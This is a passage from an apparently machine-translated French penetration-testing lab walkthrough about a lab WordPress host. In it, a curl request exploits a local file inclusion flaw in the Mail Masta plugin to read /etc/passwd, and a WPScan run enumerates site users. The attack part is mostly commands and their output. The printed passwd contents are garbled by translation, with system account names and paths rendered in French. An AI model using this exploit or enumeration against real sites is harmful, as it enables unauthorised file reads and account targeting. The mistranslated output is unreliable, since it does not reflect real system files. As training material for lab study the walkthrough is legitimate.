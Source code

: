 De l'analyse, nous pouvons déduire les informations suivantes :

- La version principale de WordPress est la plus récente (6.0 au moment de la rédaction)
- Le thème utilisé est `cbusiness-investment`
- Le plugin `b2i-investor-tools` est installé
- Le plugin `mail-masta` est installé

Le plug-in `Mail Masta` est un plug-in plus ancien présentant plusieurs vulnérabilités connues. Nous pouvons utiliser [cet](https://www.exploit-db.com/exploits/50226) exploit pour lire des fichiers sur le système de fichiers sous-jacent en exploitant une vulnérabilité d'inclusion de fichiers locaux (LFI).

```
dsgsec@htb[/htb]$ curl http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

racine:x:0:0:racine:/racine:/bin/bash
démon:x:1:1:démon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
jeux:x:5:60:jeux:/usr/jeux:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
sauvegarde:x:34:34:sauvegarde:/var/sauvegardes:/usr/sbin/nologin
list:x:38:38:Gestionnaire de liste de diffusion :/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
personne:x:65534:65534:personne:/inexistant:/usr/sbin/nologin
_apt:x:100:65534::/inexistant:/usr/sbin/nologin

```

Nous pouvons ajouter une autre découverte à notre liste : `Inclusion de fichiers locaux (LFI)`. Ensuite, passons à autre chose et voyons si nous pouvons énumérer les utilisateurs de WordPress à l'aide de `WPScan`.

```
dsgsec@htb[/htb]$ wpscan -e u -t 500 --url http://ir.inlanefreight.local

<SNIP>

[+] Énumération des utilisateurs (via des méthodes passives et agressives)
  ID d'auteur Brute Forcing - Heure : 00:00:02 <===================================> ( 10 / 10) 100,00 % Heure : 00:00:02

[i] Utilisateur(s) identifié(s) :

[+] ilfreightwp
  | Trouvé par : Générateur RSS (Détection passive)
  | Confirmé par:
  | Wp Json Api (détection agressive)
  | - http://ir.inlanefreight.local/wp-json/wp/v2/users/?per_page=100&page=1
  | Générateur RSS (Détection Agressive)
  | Sitemap de l'auteur (détection agressive)
  | - http://ir.inlanefreight.local/wp-sitemap-users-1.xml
  | Identifiant d'auteur Brute Forcing - Modèle d'auteur (détection agressive)
  | Messages d'erreur de connexion (détection agressive)

[+] tom
  | Trouvé par : Identifiant de l'auteur Brute Forcing - Motif de l'auteur (détection agressive)
```